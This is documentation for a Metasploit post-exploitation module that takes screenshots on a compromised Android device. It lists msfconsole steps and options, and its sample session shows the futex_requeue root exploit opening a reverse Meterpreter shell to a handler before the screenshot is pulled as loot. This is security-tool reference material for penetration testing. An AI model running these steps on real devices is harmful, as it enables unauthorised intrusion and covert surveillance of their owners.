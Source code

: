 ## Description

  This module takes a screen capture with the Android built-in application to live off the land.
  `shell` or `root` access is required.

## Verification Steps

  1. Start msfconsole
  2. Get `shell` or `root` access on an Android device
  3. Do: ```use post/android/capture/screen```
  4. Do: ```set session [session]```
  5. Do: ```run```
  6. You should get a screen capture saved to your device.

## Options

  **EXE_PATH**

  Path to the `screencap` executable on Android device. Default is `/system/bin/screencap`.

  **TMP_PATH**

  Path to temp directory on Android device to save the screenshot to temporarily. Default is `/data/local/tmp/`.

## Scenarios

### Samsung Galaxy S3 Verizon (SCH-I535 w/ Android 4.4.2, kernel 3.4.0)

Utilizing futex_requeue to get root access.

  ```
msf5 exploit(android/local/futex_requeue) > run

[*] Started reverse TCP handler on 111.111.1.111:4444
[*] Using target: New Samsung
[*] Loading exploit library /data/data/com.metasploit.stage/files/cbvzt
[*] Loaded library /data/data/com.metasploit.stage/files/cbvzt, deleting
[*] Waiting 300 seconds for payload
[*] Sending stage (904600 bytes) to 222.222.2.222
[*] Meterpreter session 4 opened (111.111.1.111:4444 -> 222.222.2.222:58577) at 2019-10-22 16:04:31 -0400

meterpreter > getuid
Server username: uid=0, gid=0, euid=0, egid=0
meterpreter > background
[*] Backgrounding session 4...
msf5 exploit(android/local/futex_requeue) > use post/android/capture/screen
msf5 post(android/capture/screen) > set session 4
session => 4
msf5 post(android/capture/screen) > run

[!] SESSION may not be compatible with this module.
[+] Downloading screenshot...
[+] Screenshot saved at /root/.msf4/loot/20191022161242_default_222.222.2.222_screen_capture.s_496457.png
[*] Post module execution completed
  ```

![20191022161242_default_192 168 2 14_screen_capture s_496457](https://user-images.githubusercontent.com/752491/67612706-d433ae80-f772-11e9-8344-30020515299e.png)

